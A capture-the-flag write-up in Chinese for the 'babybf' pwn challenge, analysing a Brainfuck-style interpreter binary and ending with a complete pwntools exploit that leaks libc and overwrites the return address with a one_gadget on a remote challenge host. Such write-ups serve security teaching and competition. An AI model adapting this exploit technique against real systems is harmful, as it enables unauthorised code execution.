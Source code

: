 # babybf  
### 题目分析
保护全开，输入数字开辟堆，往堆里输内容，第一眼让人觉得是堆题，但其实是栈。  
![](./pics/body.png)  
输入的内容会根据数组0x2020进行处理，以dw打开这段地方，发现是大量数字。  
![](./pics/0x2020.png)  
输入的每一个字节都会根据这个数组替换成对应的0-9的数字。  
并且依次对应这些数字按序完成对应函数的操作。  
其中比较重要的函数有以下几个：  
![](./pics/fun1.png)  
![](./pics/fun3.png)  
![](./pics/fun4.png)  
![](./pics/fun5.png)  
![](./pics/fun7.png)  
![](./pics/fun9.png)  
其余几个函数较为复杂且我最后也没用到  
进入这些函数后栈里长这样。  
![](./pics/stack.png)  
其中红框即为rbp-0xa8，也就是说可以通过控制这个字段进行各种操作。  

    对应值  输入数  操作
    0       \x3c    
    1       \x3e    ++*
    2       \x2b    ++**
    3       \x2d    --**
    4       \x2e    putchar
    5       \x2c    getchar
    6       \x5b    
    7       \x5d    
    8       \x00    free
    9       \x01    
上述对应不唯一。  
发现对该字段的操作只能使其对应的值越来越大，泄露libc后无法返回，因此考虑先更改rbp下面的返回地址，并获得libc，返回后第二次进去该函数时就能把rbp后改为one_gadget了。  
### 完整exp
```
from pwn import *
"""
    0   \x3c    
    1   \x3e    ++*
    2   \x2b    ++**
    3   \x2d    --**
    4   \x2e    putchar
    5   \x2c    getchar
    6   \x5b    
    7   \x5d    
    8   \x00    free
    9   \x01    
"""
# p=process('./chall')
p=remote("47.108.29.107",10116)
pause()
elf = context.binary = ELF("./chall")
libc = elf.libc
context.log_level = 'debug'
container=b"\x3c\x3e\x2b\x2d\x2e\x2c\x5b\x5d\x00\x01"
one_gadget=0x4f302
def play(size,content):
    p.sendlineafter(b'len> ',str(size).encode())
    p.sendlineafter(b'code> ',content)
def getpayload(ops):
    payload=b""
    for i in ops:
        payload+=p8(container[ord(i)-ord('0')])
    return payload
# gdb.attach(p,'b *$rebase(0x16F4)')
# gdb.attach(p,'b *$rebase(0x195c)')
# gdb.attach(p,'b getchar')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"59"+"11111111"+"11111111"+"11111111"+"11111111"+"41414141414"+"111"+"3"+"7"+"5"))
# pause()
context.log_level = 'debug'
pause() 

p.send(b'\xab')
pause()
__libc_start_main=u64(p.recv(6).ljust(8,b"\x00"))-231
print(hex(__libc_start_main))
libc_base=__libc_start_main-libc.sym.__libc_start_main
print(hex(libc_base))
print(hex(libc_base+one_gadget))
p.sendline(b'')
pause()
# gdb.attach(p,'b *$rebase(0x195c)')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"5151515151519"))
p.sendline(p64(libc_base+one_gadget))

p.interactive()
```